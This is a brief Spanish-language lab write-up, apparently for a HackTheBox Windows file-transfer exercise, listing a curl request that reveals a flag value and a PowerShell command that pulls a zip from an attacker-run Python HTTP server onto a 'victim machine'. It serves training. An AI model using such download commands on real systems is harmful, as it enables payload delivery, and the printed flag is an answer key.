

# Laboratorio: Windows Methods 🏆

1. Leemos la **flag** que está en el directorio raíz **`/`** del servicio web.
* **URL:** `curl -s -X GET http://<IP>/flag.txt`

* **Output:** `b1a4ca918282fcd96004565521944a3b`
---

2. Después de subir el archivo, vemos la **flag**

* Nos descargamos el archivo de `HackTheBox`, luego creamos un servidor con **Python** (`python3 -m http.server 4444`)
* En la **máquina víctima** descargamos el archivo con:
  * `(New-Object Net.WebClient).downloadFile('http://<tun0 IP>:4444/upload_win.zip', './upload_win.zip')`

* Descomprimimos el archivo y ejecutamos el comandos que nos indican en **`HackTheBox`**

  

